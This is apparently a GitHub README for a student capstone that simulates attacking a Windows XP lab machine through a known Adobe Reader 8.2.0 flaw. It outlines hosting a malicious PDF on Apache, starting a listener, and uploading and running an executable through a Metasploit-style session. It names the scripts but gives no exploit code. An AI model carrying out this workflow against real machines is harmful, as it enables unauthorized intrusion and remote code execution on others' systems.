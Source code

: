 # CyberEffects_IPDIMG
CyberEffects Capstone - Intellectual Property Defense via Illegal Methods Group (IPDIMG)

This is a simulation of a legally questionable way of determining whether intellectual property was not properly deleted after employment termination. Our capstone utilizes a vulnerability in Adobe Reader ver. 8.2.0 where payloads can be embedded into a .pdf file, and executed once opened in the vulnerable PDF reader. With this initial

## Vulnerable Target

Windows XP OS with Adobe Reader ver. 8.2.0 installed

Link to the vulnerable Adobe Reader ver. 8.2.0 [here](http://www.oldversion.com/windows/acrobat-reader-8-2-0)

Free Windows XP .iso file [here](https://eprebys.faculty.ucdavis.edu/2020/04/08/installing-windows-xp-in-virtualbox-or-other-vm/#:~:text=The%20product%20key%20is%20now,Mac%20can%20be%20found%20here.)

## Setting up Apache2 server to host malicious PDF

Install apache2

Copy the index.html and malicious pdf to the '/var/www/html' directory

Run 'sudo systemctl start apache2' to start the server

File can be downloaded at http://***host network IP***:80

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Use 'ip addr show' and locate the host network IP

## Setting up and running any of the shell scripts

'chmod +x <script name>'

'./***script name***'

## General Steps

Begin by generating the malicious PDF and generate encrypted archive file by generating the exe of 'generate_malicious_pdf.sh'.

  Run the exe, which will add the encrypted archive file to /var/www/html/
    
    Access the IP and Port that the Apache2 is running on
    
    Activate the listener script to initialize the session

Start listener by running the listener.sh script
  
  chmod +x listener.sh
  
Upload the upload_exe.rc file to the target machine via session
  
  sessions -i 1
  
  upload upload_exe.rc
  
Run the resource script in order to upload and run the executable
  
  resource upload_exe.rc
